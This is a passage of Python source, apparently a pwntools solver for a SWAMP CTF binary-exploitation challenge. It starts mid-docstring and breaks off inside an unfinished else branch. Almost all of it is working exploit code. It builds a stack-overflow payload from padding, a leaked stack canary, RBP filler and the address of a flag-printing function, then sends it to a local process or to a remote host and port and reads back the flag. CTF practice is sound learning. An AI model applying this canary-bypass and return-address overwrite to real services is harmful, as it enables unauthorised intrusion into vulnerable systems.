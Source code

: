 ```python
    Build the exploit payload.
    """
    payload  = b"A" * BUFFER_OFFSET
    payload += canary
    payload += b"B" * RBP_SIZE
    payload += p64(FLAG_PRINT_ADDR)
    return payload

def run_local(path):
    """
    Launch local binary process.
    """
    print(f"[*] Running locally: {path}")
    elf = ELF(path)
    context.binary = elf
    io = process(path)
    return io

def run_remote(host, port):
    """
    Connect to remote service.
    """
    print(f"[*] Connecting to {host}:{port}")
    return remote(host, port)

def main():
    parser = argparse.ArgumentParser(description="SWAMP CTF exploit runner")
    subparsers = parser.add_subparsers(dest="mode", required=True)

    # --local ./binary
    local_parser = subparsers.add_parser("local", help="Run exploit locally")
    local_parser.add_argument("binary", type=str, help="Path to local binary")

    # --remote
    remote_parser = subparsers.add_parser("remote", help="Run exploit remotely")
    remote_parser.add_argument("ip", type=str, help="Remote IP or hostname")
    remote_parser.add_argument("port", type=int, help="Remote port")

    args = parser.parse_args()

    # Setup target
    if args.mode == "local":
        io = run_local(args.binary)
    elif args.mode == "remote":
        io = run_remote(args.ip, args.port)
    else:
        print("[-] Unknown mode")
        sys.exit(1)

    # Exploit steps
    canary = get_canary(io)
    io.sendlineafter(b"> ", b"1")
    payload = build_payload(canary)
    io.sendafter(b"Username: ", payload)
    io.sendafter(b"Password: ", b"pwnd\n")

    # Grab the flag
    io.recvline()
    flag = io.recvline().strip()

    if b"swamp" in flag.lower():
        print("[+] FLAG:", flag.decode(errors="ignore"))
    else:
```